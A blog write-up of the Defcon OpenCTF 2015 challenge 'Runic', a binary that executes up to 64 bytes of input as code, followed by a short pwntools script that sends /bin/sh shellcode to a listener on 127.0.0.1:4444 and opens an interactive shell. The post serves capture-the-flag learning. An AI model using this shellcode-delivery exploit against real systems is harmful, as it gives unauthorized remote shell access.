 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Runic"
date:   2015-08-13 18:03:59
categories: CTF
---
```


## Recon

Below is the main function for Runic:

![Runic main](/assets/images/runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Exploitation

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

{% highlight python %}
import sys
from pwn import * # pip install pwntools

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
{% endhighlight %}

